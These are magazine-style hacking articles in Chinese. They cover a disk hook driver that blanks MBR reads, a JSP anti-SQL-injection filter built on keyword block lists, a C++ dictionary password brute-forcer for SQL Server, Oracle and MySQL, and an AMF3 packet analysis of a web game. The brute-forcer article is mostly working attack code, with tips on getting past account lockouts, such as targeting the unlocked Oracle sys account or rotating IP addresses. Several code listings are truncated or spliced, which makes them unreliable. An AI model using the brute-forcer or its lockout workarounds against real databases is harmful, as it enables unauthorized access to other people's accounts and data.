VOID AvgerFilterIrp(PDEVICE_OBJECT DeviceObject, PIRP Irp)
{
    PSCSI_REQUEST_BLOCK pSRB;
    PIO_STACK_LOCATION pSp;
    ULONG uLBA, uLBAhigh;
    BOOLEAN bRead = FALSE, bWrite = FALSE, bFilter = FALSE;
    USHORT i = 0;
    PVOID pBuffer;
    PVOID pDst, pSrc;
    AvgerCompleteContext *pContext;
    if (
        DeviceObject->Type != IO_TYPE_DEVICE ||
        Irp->Type != IO_TYPE_IRP
       )
    {
        goto _exit;
    }
    pSp = IoGetCurrentIrpStackLocation(Irp);
    if (NULL == pSp)
    {
        goto _exit;
    }
    pSRB = pSp->Parameters.Scsi.Srb;
    if (NULL == pSRB)
    {
        goto _exit;
    }
    // 不要过滤自己发送的请求
    if ((ULONG)pSp->CompletionRoutine == (ULONG)RWComplete)
    {
        goto _exit;
    }
    if (pSp->MajorFunction != IRP_MJ_SCSI ||
        pSRB->Function != SRB_FUNCTION_EXECUTE_SCSI)
    {
        goto _exit;
    }
    bRead = pSRB->SrbFlags & SRB_FLAGS_DATA_IN;
    bWrite = pSRB->SrbFlags & SRB_FLAGS_DATA_OUT;
    if ((bRead && bWrite) || (!bRead && !bWrite))
    {
        goto _exit;
    }
    if (pSRB->CdbLength == CDB10GENERIC_LENGTH)
    {
        uLBA = (pSRB->Cdb[2] << 24) | (pSRB->Cdb[3] << 16) |
               (pSRB->Cdb[4] << 8)  | (pSRB->Cdb[5]);
    }
}
```

```c
else
{
    // not support
    DbgPrintEx(LOGMACRO, "cdb length not support.\n");
    goto _exit;
}
if (Irp->AssociatedIrp.SystemBuffer)
{
    pBuffer = Irp->AssociatedIrp.SystemBuffer;
}
else if (Irp->MdlAddress)
{
    if (
        Irp->MdlAddress->MdlFlags &
        (MDL_MAPPED_TO_SYSTEM_VA | MDL_SOURCE_IS_NONPAGED_POOL)
       )
    {
        pBuffer = Irp->MdlAddress->MappedSystemVa;
    }
    else
    {
        pBuffer = MmMapLockedPagesSpecifyCache(
            Irp->MdlAddress, KernelMode, MmCached,
            NULL, FALSE, NormalPagePriority);
    }
}
else
{
    goto _exit;
}
if (0 == uLBA)
{
    // 少于一个扇区
    if (pSRB->DataTransferLength / gData.BytesPerSector == 0)
    {
        goto _exit;
    }
    if (bRead)
    {
        // 安装一个完成函数
        pContext = (AvgerCompleteContext*)ExAllocatePool(
            NonPagedPool, sizeof(AvgerCompleteContext));
        if (NULL == pContext)
        {
            goto _exit;
        }
        pContext->pOrgCompletionRoutine = pSp->CompletionRoutine;
        pContext->pOrgContext = pSp->Context;
        pContext->pOrgControl = pSp->Control;
        pContext->LBA = uLBA;
        pSp->Context = pContext;
        pSp->Control = SL_INVOKE_ON_SUCCESS | SL_INVOKE_ON_ERROR | SL_INVOKE_ON_CANCEL;
        pSp->CompletionRoutine = (PIO_COMPLETION_ROUTINE)((ULONG)AvgerIoCompletion);
        goto _exit;
    }
}
_exit:
    return;
}
```

AvgerFilterIrp 只过滤 CDB10 标准的 SRB，读者有兴趣可以扩展过滤 CDB6/10/12/16 等标准的 SRB。

过滤的逻辑很简单，如果待读的扇区是 MBR，那么进入过滤流程：先为此 SRB 请求手动安装一个完成函数，待此请求完成的时候设置的完成函数将会被调用，然后在此完成函数中替换 MBR 的内容。

```c
NTSTATUS AvgerIoCompletion(PDEVICE_OBJECT DeviceObject, PIRP Irp, PVOID Context)
{
    NTSTATUS ntStatus = STATUS_SUCCESS;
    PVOID pBuffer;
    ULONG uLBA;
    USHORT i, j;
    PVOID pDst, pSrc;
    PIO_STACK_LOCATION pSp;
    if (!NT_SUCCESS(Irp->IoStatus.Status))
    {
        goto _exit;
    }
    uLBA = ((AvgerCompleteContext*)Context)->LBA;
    if (Irp->AssociatedIrp.SystemBuffer)
    {
        pBuffer = Irp->AssociatedIrp.SystemBuffer;
    }
    else if (Irp->MdlAddress)
    {
        if (Irp->MdlAddress->MdlFlags &
            (MDL_MAPPED_TO_SYSTEM_VA | MDL_SOURCE_IS_NONPAGED_POOL))
        {
            pBuffer = Irp->MdlAddress->MappedSystemVa;
        }
        else
        {
            pBuffer = MmMapLockedPagesSpecifyCache(
                Irp->MdlAddress, KernelMode, MmCached,
                NULL, FALSE, NormalPagePriority);
        }
    }
    else
    {
        goto _exit;
    }
    if (uLBA == 0)
    {
        pDst = pBuffer;
        memset(pDst, 0, gData.BytesPerSector);
    }
_exit:
    // 恢复安装 CompletionRoutine
    pSp = IoGetNextIrpStackLocation(Irp);
    pSp->CompletionRoutine =
        ((AvgerCompleteContext*)Context)->pOrgCompletionRoutine;
    pSp->Context = ((AvgerCompleteContext*)Context)->pOrgContext;
    pSp->Control = ((AvgerCompleteContext*)Context)->pOrgControl;
    ExFreePool(Context);
    if ((NT_SUCCESS(Irp->IoStatus.Status) &&
         pSp->Control & SL_INVOKE_ON_SUCCESS) ||
        (!NT_SUCCESS(Irp->IoStatus.Status) &&
         pSp->Control & SL_INVOKE_ON_ERROR) ||
        (Irp->Cancel &&
         pSp->Control & SL_INVOKE_ON_CANCEL))
    {
        if (pSp->CompletionRoutine)
        {
            return pSp->CompletionRoutine(DeviceObject, Irp, pSp->Context);
        }
    }
    if (Irp->PendingReturned && (Irp->CurrentLocation <= Irp->StackCount))
    {
        IoMarkIrpPending(Irp);
    }
    return STATUS_SUCCESS;
}
```

直接将读到的 MBR 内容全部清空。需要注意的是，完成函数的 IRQL 比较高，在 DISPATCH 级别，因此操作需要谨慎。复杂的操作或者需要触碰分页内存的操作，建议排一个 Work Item 出来做。另外还有一个概念需要清楚，就是手动安装完成函数。

手动安装完成函数，而不能调用 IoSetCompletionRoutine 设置完成函数的原因是，作为一个 hook 驱动，而不是微软推荐的过滤驱动，是没有自己的 IO 栈单元的，因此只能和他人共用 IO 栈单元并做好兼容，不要破坏原有的 IO 栈单元信息。

### 打造通用型 JSP 防注入系统

文/图 爱无言

注入漏洞一直是 Web 应用程序中最为常见的安全漏洞之一，这并不是说这种漏洞无法阻止，开发过程中形形色色的需求和问题都会造成漏洞的出现，有时候表现得很明显，有时候漏洞会隐藏得让人感到不可思议。于是，安全人员开始研究通用型的防注入系统，这些系统不需要 Web 应用程序开发人员绞尽脑汁地去注意自己程序的安全问题，只需要简单地调用防注入系统提供的外部接口，放置在程序适当的位置，就可以起到对注入攻击的防范。更高级的防注入系统则是利用二进制应用程序实现，类似于网络防火墙，支持多模式使用，甚至被设计为硬件级别的安全系统，有利于减轻服务器的负载压力。常见的防注入系统多半针对 ASP 程序，很少见到适用于 JSP 程序的通用型防注入系统，为此本文结合了 SQL 白名单机制和语法分析机制两种模式，开发了一种通用型 JSP 防注入系统，该系统适用于任意类型的 JSP 程序，使用较为灵活。当然，程序本身还需补充完善，这里只是将程序的实现机制分享出来，如有不对之处，还请多多指正。

为了让防注入系统具有良好的通用性，系统采用了 JavaBean 技术。JavaBean 是 Java 程序的一种组件结构，拥有独立的管理机制，可以由多个类或者单独的一个类组成，简单地理解，就是一个独立的小程序，外部程序只需要调用其提供的接口函数就可以获得相关操作，具体实现技术外部程序无需关注。

一个标准的 JavaBean 通常有以下几个特征：其是一个公共类，具有 public 属性；构造函数不传入参数；利用 getXXX 类型的公共方法获取内部属性值；利用 setXXX 类型的公共方法来修改内部属性值。举例来说，假设有一个关于日历的 JavaBean，可以通过 setYear 和 setMonth 设定该对象的年与月的属性值，可以利用 getCalendar 获取对应某一时间的月历。

在 JSP 程序中使用 JavaBean 时，可以设定 JavaBean 的生命周期，即作用范围。通常来说，JavaBean 的生命周期区分为 page、request、session、application 四种类型。在本防注入系统中，主要使用了 page 和 application 两种生命周期。其中，page 生命周期是指当前被设定的 JavaBean 作用范围限定在当前页面内，一旦页面显示完毕作用随即消失。application 生命周期则属于全局类型的生命周期，这意味着被设定的 JavaBean 作用于整个服务器运行过程，除非当前服务停止或者重启才会消失。

本系统采用了三个 JavaBean：blackIP 用于 IP 地址黑名单操作，该 JavaBean 用于判断访问 Web 应用程序的用户来源 IP 地址是否属于黑名单，属于则会立即禁止该用户访问。同时，当访问用户进行 SQL 注入攻击时，当攻击次数超过系统阈值时，该 JavaBean 会立即将该用户来源 IP 地址加入黑名单，阻止其继续攻击。sqlcheck 是针对用户提交数据进行安全过滤的 JavaBean，利用关键字匹配方法来实现过滤，一旦发现用户提交的数据中存在非法字符，则会认定该数据属于污点数据，告知系统启动安全防范机制。whitelist 是防注入系统的核心 JavaBean，实现了两种判定机制，一种是 SQL 白名单，一种是语法分析。两种判断机制都可以进行 SQL 注入攻击的判定，但作用范围不一样。下面结合具体实现代码，对整个防注入系统做一个介绍。

### blackIP 的关键代码如下

```java
public void setblackIP(String ip) // 该函数实现将指定 IP 地址加入黑名单
{
    if (this.IPcount < 100) // 这里设定 IP 地址黑名单数量为 100
    {
        this.IP[this.IPcount] = ip;
        this.IPcount = this.IPcount + 1;
    }
}
public int checkIP(String ip) // 检测 IP 地址是否属于黑名单
{
    if (this.IPcount != 0)
    {
        j = IPcount - i;
        while (j > 0)
        {
            if (ip.equals(this.IP[j]))
            {
                ..
            }
            ..
        }
        return res;
    }
}
```

### sqlcheck 的关键代码如下

```java
public boolean docheck(String str)
{
    String inj_str = "'and|exec|insert|select|delete|update|count|*|chr|mid|master|truncate|char|declare|;|or|-|+|,|'";
    // 这里进行关键字判断，判断用户数据是否属于污点数据
    String[] inj_stra = inj_str.split("\\||'");
    // return inj_stra.length;
    for (int i = 0; i < inj_stra.length; i++)
    {
        ...
    }
}
if (str.indexOf(inj_stra[i]) >= 0)
{
    ...
}
```

### whitelist 的关键代码如下

```java
public boolean comparewhitelistSQL(String sql)
{
    String whitelists[];
    whitelists = new String[5];
    whitelists[0] = "艺术";
    whitelists[1] = "医学";
    whitelists[2] = "文学";
    whitelists[3] = "工科";
    whitelists[4] = "工具";
    String[] sql_stra = sql.split("");
    // 这里属于 SQL 白名单实现机制，该机制作用范围较小，这里演示了对查询语句中某一个字段范围的设定，
    // 一旦该字段参数不属于以上合法范围，则会判定该数据属于非法查询，给出警告提示。
    for (int i = 0; i < 5; i++)
    {
        if (sql_stra[1].equals(whitelists[i]))
        {
            return true;
        }
    }
    return false;
}
```

```java
public boolean SyntacticanalysisSQL(String sql)
{
    String inj_str = "and|exec|insert|select|delete|update|count|*|chr|mid|master|truncate|char|declare|or|-|+|,";
    String[] inj_stra = inj_str.split("\\|");
    int i;
    int T = 0;
    for (i = 0; i < inj_stra.length; i++)
    {
        if (sql.indexOf(inj_stra[i]) >= 0)
        {
            break;
        } // 以上属于对用户数据进行词法分析
    }
    if (i < inj_stra.length)
    {
        String[] sql_stra = sql.split(inj_stra[i]);
        int statanum = sql_stra.length;
        if (i == 3)
        {
            if (statanum > 2) T = statanum;
            // 以上属于基于词法分析结果后再进行语法分析判断
        }
    }
}
```

在 whitelist 中，语法分析的原理类似于我们假设当前查询语句为“select * from xx where id=x”，用语法表示为 T1=1；“select * from xx where id=x and name=xx”用语法表示为 T1=1，T2=1。假设合法的语法规则是 T1=1、T2=0，那么，“select * from xx where id=x and name=xx”这句查询语句就不合法，系统将会给出安全提示。

有了上述的 JavaBean，在 JSP 程序中就可以使用了。其中，blackIP 必须设定为 application，其它设定为 page。使用方式为：

```jsp
<jsp:useBean id="blackIP" class="antiSQL.blackIP" scope="application"></jsp:useBean>
<jsp:useBean id="sqlcheck" class="antiSQL.sqlCheck" scope="page"></jsp:useBean>
<jsp:useBean id="whitelist" class="antiSQL.whitelist" scope="page"></jsp:useBean>


```

在用户数据进入程序组成 SQL 语句后，直接调用 comparewhitelistSQL 或者 SyntacticanalysisSQL 进行安全判断，针对数字、字符、搜索等类型的数据最好使用 SyntacticanalysisSQL 进行判断，comparewhitelistSQL 适用于单独查询某一字段的 SQL 查询。在实际使用中，程序运行效果良好，完全满足了基本防注入攻击系统的需要，系统运行效果如图 1 所示。
图 1

本文介绍的通用型 JSP 防注入系统目前只是一个基本雏形，在功能上还可以进行扩展，但其主要原理已经向大家展示出来，可以依据本文介绍的原理，打造出属于自己的通用型 JSP 防注入系统。

### 编写数据库密码远程暴力破解器

文/图 大石头

阅读本文之前，读者应该对 C/C++ 语言有些了解，因为本文是采用 VC++ 6.0 进行编程实现的。编程实现的基本流程为：编写载入字典文件代码；编写连接 SQL Server 的代码；编写连接 Oracle database 的代码；编写连接 MySQL 数据库的代码；结合起来，循环测试所有用……户名和密码。

本文采用 VC++6.0 新建 MFC（Dialog Based）项目实现，设计的界面如图 1 所示。
图 1

## 编写载入字典文件代码

字典文件有两个，一个是用户名文件，一个是密码文件，格式都是一样的，每一行都有一个字符串。破解时，对用户名和密码进行自由组合配对，循环连接数据库，根据是否成功连接就能够找出用户名与密码。读入文件，用 C++ 的 ifstream 类是非常方便的，最终代码如下：

```cpp
/************************************************************/
/* pathfile 文件路径                                        */
/************************************************************/
std::vector<std::string> loadUid(char * pathfile)
{
    using namespace std;
    vector<string> list;
    char username[256]; // 字符串暂存地
    ifstream fin;
    fin.open(pathfile, ios::in);
    while(!fin.eof())
    {
        fin >> username;
        list.push_back(std::string(username)); // 放入 vector 中
    }
    fin.close();
    return list;
}


```

## 连接 SQL Server 判断正确密码

三个之中，感觉 SQL Server 暴力破解是最简单的。第一，SQL Server 默认没有开启错误登录次数过多锁定账户或者拒绝某 IP 的功能。第二，微软的 VC 对微软的 SQL Server 支持比较好，只要在 VC 下使用 ADO 就可以远程连接 SQL Server，不再需要其他第三方库。

首先需要了解 ADO。ADO（ActiveX Data Objects，ActiveX 数据对象）是 Microsoft 提出的应用程序接口（API），用以实现访问关系或非关系数据库中的数据。与 OLE DB 相比，ADO 就是一个“桥”，为所有的 OLE DB 提供了统一的接口，使用 ADO 的应用程序都要间接使用 OLE DB。ADO 提供了对自动化的支持，而 OLE DB 则可以对各自的数据库（广义上的数据库，除了关系型数据库外，还包括其他格式的数据源，如电子表格、文档文件）进行操作。它们之间的关系如图 2 所示。
闲话少说，只要知道 ADO 可以连接数据库就行了，本文的破解器就采用了 ADO。那么如何使用 ADO 呢？

在 VC 中利用 ADO 访问数据库时，首先需要导入 ADO 库，ADO 库可以直接在预编译头文件 stdafx.h 中导入。具体代码如下：

```cpp
#import "C:\Program Files\Common Files\System\ado\msado15.dll" no_namespace rename("EOF","rsEOF")
```

因为 EOF 在 VC 中表示记录集的结尾，文件也是以 EOF 结尾的。为避免冲突，需要将 EOF 改名。rsEOF 可以随便写，而 `"C:\Program Files\Common Files\System\ado\msado15.dll"` 是 VC6 安装后就有的。导入 ADO 库之后，就可以在 VC 中使用了，步骤如下：

- 1. **初始化 OLE/COM 库环境**

因为 OLE DB 是基于 COM，而 ADO 是基于 OLE DB 的，ADO 本身也是一个 COM 组件，所以要使用 ADO，必须先初始化 COM 库。初始化代码可以为 `CoInitialize(NULL);`，访问完 COM 库后，程序还需要调用 CoUninitialize 函数卸载 COM 库。当然，也可以采用下面代码初始化 COM 库。

```cpp
BOOL CXXXXAPP::InitInstance(){
    AfxOleInit();
    ...
    return TRUE;
}
```

- 2. **连接数据库**

连接数据库需要使用 `_ConnectionPtr` 类，此类负责连接数据库，代码如下：

```cpp
_ConnectionPtr pConn(__uuidof(Connection));
CString conStr;
conStr.Format("Provider=SQLOLEDB;Server=%s,%s;Database=%s;Uid=%s;Pwd=%s");
pConn->ConnectionString = conStr.GetBuffer(0);
try
{
    if(S_OK == pConn->Open("", "", "", adConnectUnspecified))
    {
        // 成功
    }
}
catch(_com_error e)
{
    // 失败
}
```

`conStr` 变量是 SQL Server 连接字符串，包含服务器信息、用户名、密码。调用 `ConnectionPtr` 的 `Open` 函数如果连接失败就会抛出异常，如果不捕获此异常，程序就会终止。如果抛出异常，而其他信息是正确的，那么用户名或者密码一定是错误的。用此办法可以判断是不是正确的用户名密码。

## 连接 Oracle 数据库判断正确密码

Oracle 数据库对 ADO 不太支持，很多功能用 ADO 是无法实现的。ADO 虽然也能够建立到 Oracle 数据库的连接，但是不支持以 SYSDBA 身份连接。而 sys 用户如果不以 sysdba 身份连接，就会抛出异常，而且无法获得辨认错误类型的异常信息，也就是说所有连接错误所抛出的异常信息都是一样的，不管是因为身份问题还是密码错误问题。更重要的是，Oracle 数据库在 Oracle 10g 以后的版本中，默认采用了 10 次密码错误连接就锁定账户的策略，所以对普通账户暴力破解是没有多大意义的，但是 Oracle 不会对 sys 账户进行锁定，破解的希望基本上还是寄托在 sys 账户上。

上面说了，ADO 使用 sys 账户连接 Oracle database 会抛出异常。另一方面，Oracle 提供了 OCCI、Pro*C 技术来操作数据库，但又太麻烦了，所以本文采用调用 Oracle 的 sqlplus 工具进行暴力破解。

首先需要做的准备工作，不管用什么技术，客户机必须安装 Oracle 客户端。客户端有一个 sqlplus 命令行工具，可以连接数据库。对于本文来说，`sqlplus username/password@//host:port/sid` 就足够了，主要的问题是如何执行命令行并判定是不是用户名密码正确。执行命令行并获得命令行输出可以用下面的函数实现。

```cpp
BOOL CSsdfDlg::ExecDosCmd(char * EXECDOSCMD)
{
    SECURITY_ATTRIBUTES sa;
    HANDLE hRead, hWrite;
    sa.nLength = sizeof(SECURITY_ATTRIBUTES);
    sa.lpSecurityDescriptor = NULL;
    sa.bInheritHandle = TRUE;
    if (!CreatePipe(&hRead, &hWrite, &sa, 0))
    {
        return FALSE;
    }

    char command[1024]; // 长达 1K 的命令行，够用了吧
    strcpy(command, "Cmd.exe /C ");
    strcat(command, EXECDOSCMD);

    STARTUPINFO si;
    PROCESS_INFORMATION pi;
    si.cb = sizeof(STARTUPINFO);
    GetStartupInfo(&si);
    si.hStdError = hWrite;   // 把创建进程的标准错误输出重定向到管道输入
    si.hStdOutput = hWrite;  // 把创建进程的标准输出重定向到管道输入
    si.wShowWindow = SW_HIDE;
    si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;

    // 关键步骤，CreateProcess 函数参数意义请查阅 MSDN
    if (!CreateProcess(NULL, command, NULL, NULL, TRUE, NULL, NULL, NULL, &si, &pi))
    {
        CloseHandle(hWrite);
        CloseHandle(hRead);
        return FALSE;
    }
    CloseHandle(hWrite);

    char buffer[4096] = {0}; // 用 4K 的空间来存储输出的内容
    DWORD bytesRead;
    std::string result;
    while (true)
    {
        if (ReadFile(hRead, buffer, 4095, &bytesRead, NULL) == NULL)
            break;
        // buffer 中就是执行的结果，可以保存到文本，也可以直接输出
    }
    CloseHandle(hRead);

    return TRUE;
}
```

经过几次使用 sqlplus，发现如果连接成功，那么会有 `SQL>` 字符串出现在命令行输出结果中。如果提醒应以 sysdba 身份登录的信息，会有 `ORA-28009` 字符串出现在命令行输出结果中，所以可以通过下面代码判断是不是使用了正确的用户名与密码。

```cpp
if (strstr(buffer, "ORA-28009") != NULL || strstr(buffer, "SQL>") != NULL)
// 提醒应该以 dba 身份登录，或者出现 SQL>
{
    // 找到了正确的用户名密码
}
```

其中 `strstr` 函数是从字符串 1 中找到字符串 2，如果没找到就返回 `NULL`。

## 连接 MySQL 数据库判断正确密码

和 Oracle database 使用账户锁定不同，MySQL 采用了 IP 禁止的方式来阻止暴力破解。对此，除了不停改变 IP 之外，我没有想到什么好的办法。

连接 MySQL 数据库依然没有采用 ADO 方法，而是采用了 MySQL 专门提供的 C 接口。在 MySQL 安装目录下会找到 include 和 lib 文件夹（完全安装模式下），里面分别是 C 接口的头文件和库文件。至于怎么加入到 VC6 里面去，请自行搜索。

需要注意的是，在 stdafx.h 中添加 MySQL 头文件时，必须采用如下形式：

```cpp
#include "winsock.h"
#include "mysql.h"
```

也就是说，`winsock.h` 必须在 `mysql.h` 前面。

MySQL 的连接代码还是比较简单的。

```cpp
MYSQL mysql; // 数据库连接句柄
mysql_init(&mysql);
if(mysql_real_connect(&mysql, "host", "user", "pwd", "db", port, NULL, 0))
{
    MessageBox("成功");
    mysql_close(&mysql);
    break; // 成功就跳出
}
```

连接成功就是正确的用户名与密码。

## 暴力破解用户名密码

暴力破解，首先就是循环，连接成功就跳出循环，成功破解。代码范例如下：

```cpp
uidList = loadUid(userFile);  // 用户名集合
pwdList = loadPwd(pwdFile2);  // 密码集合

for(it = uidList.begin(); it < uidList.end(); it++) // 循环判定，it/it2 为迭代器
{
    st1 = (*it);
    for(it2 = pwdList.begin(); it2 < pwdList.end(); it2++) // 循环判定
    {
        st2 = (*it2);
        // 连接数据库，若成功就跳出两个循环
    }
}


```

#### 小结

本文的暴力破解器非常简陋，而且对 MySQL 数据库没有找到好的破解方法。另外，我选用的数据库版本分别是 SQL Server 2005、MySQL 5.5、Oracle 11g R2，所以不保证对其他版本有效，只希望能起到抛砖引玉的作用。最好可以结合多线程重新设计破解器，这样速度就大大加快了。

## AMF3 协议终极解析

### ——七雄争霸数据包分析

文/图 白金之星

AMF 是 Action Message Format 的简写，一种二进制数据格式。它的设计是为了把 ActionScript 里面的数据（包括 Object、Array、Boolean、Number 等）序列化成一段二进制数据，然后把这段数据随意发送给其他位置的程序，比如发给远程服务器。在远程服务器那边，又可以把这段数据还原出来，以此达到数据传输的作用。

AMF 消息流与 AMF 不是一回事。AMF 消息流就是一个数据包（package），里面包含了版本号、头部、消息体等数据，头部和消息体里面用到的数据使用 AMF 格式进行存储。AMF 数据流常用于 NetConnection、SharedObject 等。

从官方文档看，在 2001 年 Flash Player 6 中就诞生了 AMF0，这是 AMF 的第一个版本。AMF0 的设计比较简单，直到 Flash 8 都没发生过什么变化。后来 AS3 出世，有了新的 AVM，于是也就重新设计了一套 AMF3。它的基本目的就是让数据进一步压缩再压缩，并且支持了一些新的数据类型，比如 ByteArray 等。具体有哪些改动，大家自己去看 PDF 文档。

AMF3 出来之后，AMF0 是不是可以退休了？答案是否定的。大家现在接触到的 AMF3 消息流，基本上都是在 AMF3 外面包了一层 AMF0。也就是说，我们看到的所有 AMF 数据流都是 AMF0 的；当数据流中的某个数据的 `type=0x11` 时，才表示这个数据应该属于 AMF3 的数据，这个时候就会切换到 AMF3 的模式来处理这个数据，处理完之后当然还是继续回到 AMF0 模式处理数据。

### AMF 消息格式

这里我们截取一段“七雄争霸”网页游戏的 AMF 请求消息进行说明，可用 Firefox 浏览器 +（FireBug + AMF Explorer）插件查看 AMF 消息，消息结构如图 1 所示。
图 1

数据包开始内容是 AMF 协议版本 version，表示版本号为 3。紧接着 4 个字节 headers 表示头部个数，一般情况下头部个数都是 0。如果头部个数为 n，那么接下来应该是 n 个头部数据。这里因为 n=0，所以直接跳过。之后 4 个字节代表消息体个数，一般为 1，接下来就是消息正文。

AMF 消息体正文 =（targetURI + responseURI + 内容长度 + 内容）* n。我们这个例子里 n=1。targetURI 是一个字符串（指令标识符），表示这个消息要发到哪里去，在这个例子里为 `chatAct.getAllMessage4New`，从字面意思理解似乎是一个用于从服务器端获取状态信息的指令；responseURI 也是一个字符串（响应标识符），发送请求默认为 `/1` 开始自动递增编号，图中值为 `/413`，表示第 413 个发送请求。

AMF 规定 targetURI 和 responseURI 都是一个 UTF-8 字符串，也就是用 2 个字节来表示字符串长度，后面紧接着字符串正文。接下来的就是内容正文了，内容正文的数据解析将在后面详细举例说明。

## AMF 数据类型

AMF3 一共有 13 种数据类型，每种类型都用一个字节来表示，类型标识后跟真正的数据，各类型的编码规则如下表所示。

| 数据类型 | 编码规则 |
|---|---|
| Undefined = 0 | `undefined={0}`，这个没什么说的。 |
| null = 1 | 字节数组 = `{1}`，很简单，null 类型为 1，所以后面不带任何内容。 |
| False = 2 | 字节数组 = `{2}`，逻辑假。 |
| True = 3 | 字节数组 = `{3}`，逻辑真。 |
| Int = 4 | 在 AMF3 中，整数使用可变长度的无符号 29bit 整数序列化。32bit 整数存储时前 3 个字节最高位用于续位标识，因此有效值为 29bit，最大无符号整数为 `2^29-1`。 |
| Double = 5 | AMF3 的双精度浮点型与 AMF0 一致，网络序列中总是 8 字节 IEEE-754 双精度浮点值。 |
| String = 6 | AMF0 和 AMF3 使用 UTF-8 编码字符串。对于 AMF3，字符串可字面量或引用编码；使用可变长度 29bit 整数作头，首 bit 标识是否字面量，其余位编码 UTF-8 长度或引用信息。 |
| Xml-doc = 7 | 和 AMF0 类似，XMLDocument 的结构需要转换为字符串表示来序列化。在 AMF 中，因为需要字符串，其内容用 UTF-8 来编码。 |
| Date = 8 | 在 AMF3 中，AS 日期简单地序列化为一个从公元 1970 年 1 月 1 日零点（UTC）到现在的毫秒数。本地时区信息不被发送。 |
| Array = 9 | AMF 把数组分为两个部分：密集部分和关联部分。对于关联部分的二进制表示，由以空字符串结束的名/值对（可能没有）组成。密集部分的二进制表示是跟着顺序列表值（可能没有）的密集部分大小（可能是零）。 |
| Object = 10 | 后文单独说明。 |
| Xml = 11 | AS3.0 引进了一个新的 XML 类型，支持 E4X 句法。 |
| ByteArray = 12 | AS3.0 引进了新的类型表示字节数组，即 ByteArray。AMF3 用可变长度 29bit 整数编码字节长度作为前缀，其后跟着 ByteArray 原始字节来序列化。 |

下面通过实例讲述 int、string、object 三种数据类型的编码规则。

## 1) int 型数据

`{4,206,16}`，4 表示该元素为数，206 转成二进制为 `1100 1110`，由于最高位为 1，所以后一字节仍然有效。此时将 `1100 1110` 最高位置 0 并左移 7，变成 `0010 0111 0000 0000`。再看 `16 = 0001 0000`，由于最高位为 0，故下一字节无效，两字节做或“|”运算，`0010 0111 0000 0000 | 0001 0000` 便得出结果整数 10000（十进制）。

## 2) String 类型

`"abcdefg"={6,15,97,98,99,100,101,102,103}`，第一个字节 6 当然也是类型。接下来肯定是字符串长度了，不知道长度怎么知道字符串呢？这里 `len=15`，这时候我们发现长度不对。是的，我们要将读到的 int 右移 1 位，`15 / 2 = 7`，这就是我们的长度。AMF 会将一个数据包中读到的 string 按顺序保存到一个列表中（也可称之为 String 缓存池），以便数据包中再出现一样的字符串时，可以直接从列表中读，不必重复发送。

```cpp
Obj.name = "vigour";
Obj.school = "vigour";
```

我们将这个 obj 通过 socket 发送，其实 `"vigour"` 这个字符串只是通过 name 发送了一次，那 school 怎么办？当然就是标记下 `"vigour"` 是第几个字符串发送的。这时候，我们便知道那移掉的一位有什么用处了。假设我们读到的 int 是 a，那么：

```cpp
if((a & 1) == 0) // 表示最后位如果是 0，则表示该字符串前面已发送过，是第 a / 2 次发送的。
if((a & 1) == 1) // 表示最后位如果是 1，则表示该字符串是全新发送，长度为 a / 2。
```

我们知道了长度怎么读取，接下来就根据长度读取后面 `15 / 2 = 7` 位字节，利用 ASCII 码转换成相应字符就行了。因为在 AS 中发送的编码格式都是 UTF-8，所以发送字符串为中文时，要在本地计算机转换成 GB2312 码才能在计算机上显示。

把需要重复发送的数据利用几个 bit 进行编码，客户端根据编码索引，到缓存池中查找已发送过的数据进行还原，这是 AMF 协议的精华所在。在后面的 object 数据解析中，我们会再次利用上面的规则，请一定要充分理解上述过程。

## 3）Object 类型

有点类似 C 语言中的结构体，将其它不同 AMF 类型的数据组合成一个整体，以便于引用。比如游戏服务器需要将一个 NPC 的信息回传给客户端，NPC 信息包括人物 id、姓名、性别、出生年月。利用 Object 描述如下：

```text
NPC object
{
[int]      id 1;
[string]   name "tom";
[false]    sex 男;
[date]     birth 1999-1-1;
}


```

int、string、false、date 作为 object 各成员的类型，id、name、sex、birth 则表示各成员名，1、tom、男、1999-1-1 分别是各成员的值。

这里要引入一个被称之为 “traits” 的重要概念（姑且称之为“特性数据”），object 实例有四种基本类型，其特性信息如下表所示：

| 类型 | 说明 |
|---|---|
| Anonymous（匿名型） | 未注册别名的 Object 类对象实例，数据解析时和普通型 Object 对象一样处理 |
| Typed（普通型） | 拥有注册别名的 Object 对象实例 |
| Dynamic（动态型） | 使用动态特性声明的类定义的实例，在运行时，可以动态地给对象实例添加和删除公共成员变量 |
| Externalizable（个性型） | 实现了 flash.utils.IExternalizable 接口的类实例，并且完全控制其成员的序列化（在特性信息中没有属性名） |

除了上述这些特性，对象特性数据也可能包括一组在 object 中定义的公共变量和公共可读写的属性名（例如所有的公共成员，不包括函数）。各成员名的顺序是重要的，因为在特性信息中的成员值也是同样的顺序。在解析某 object 实例时，需要按成员顺序读取特性信息缓冲池中的特性信息。

普通型和匿名型的 object 实例，其数据结构组成是先集中存入成员名称字符串，接着集中存放各成员的值。解析程序读取时先集中读取所有成员名称，接着读取成员值；如果 object 实例类型是动态的，那么在封装好的成员之后的部分会列出动态成员的“名/值”对，解析程序读取这类型 object 时会重复读取“名/值”，直到读取动态成员名称是空字符串。个性型的 object 的数据构成完全由开发者决定，这里不多做说明。

当 Object 实例在首次发送报文中出现时，AMF 会将该 object 实例存入对应的缓冲区中，并给其标注索引。Object 实例再次在报文中出现时，不需要发送完整实例了，只需发送索引值，客户端解析程序根据索引值到缓冲区中寻找对应实例数据。还有一点需要注意的是，这也是大部分 AMF 资料没有解释清楚的：上文介绍的 object 的特性数据也可以通过索引在“缓冲区”中还原已发送过的特性数据。这一点在解析 object 实例时至关重要，希望大家可以好好体会。

Object 数据在发送时首先发送 0x0A 类型，紧接着发送 32 位的 object 属性双字。该双字的低 4 位关系到 object 和特性数据以实例或引用方式解析，至关重要。低 4 位含义如下表所示：

| 字段 | U29 标记 | 说明 |
|---|---|---|
| U290-ref | U29-0 | 第 0 位(bit)表示其后数据是 object 实例或者引用。为 1，数据是一个实例；为 0，数据是一个引用。1-28 位表示引用的索引值（一个整数）。 |
| U290traits-ref | U29-1 | 第 0 位标志为 1 时，第 1 位该标志表示是否为特性数据引用。为 0 时表示特性数据是一个引用，此时 1-27 位表示该引用的索引值。 |
| U290traits-ext | U29-2 | 前三位标志位都是 1；余下的 26 位无意义（特性成员的数量必须是 0）。 |
